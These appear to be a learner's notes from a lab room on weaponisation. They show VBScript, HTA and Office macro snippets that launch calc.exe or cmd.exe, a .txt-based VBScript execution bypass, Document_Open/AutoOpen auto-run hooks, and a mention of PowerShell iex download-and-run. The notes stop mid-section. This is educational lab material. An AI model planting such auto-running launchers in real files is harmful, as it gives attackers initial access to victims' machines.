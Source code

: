 
Weaponisation is the second stage of the kill chain
goal is to use malicious weapon to exploit target and gain initial access

## Windows Scripting host (WSH)

uses cscript and wscript 

we can use wscript to create a shell object which can then be used to run exe files
e.g. Calc payload
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

A bypass to having the files saved as `.vbs` is to use a txt file and invoke vbs using `wscript /e:VBScript payload.txt`

## HTA (HTML Application)
```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

ActiveXObject same as Wscript.CreateObject

can create malicious HTA using metasploit > easiest way

## VBA
office macro time baby

```vb
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

calc payload:
```vb
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

## POWERSHELL

use iex to download string and then run it

## Simulation

lets use a VBA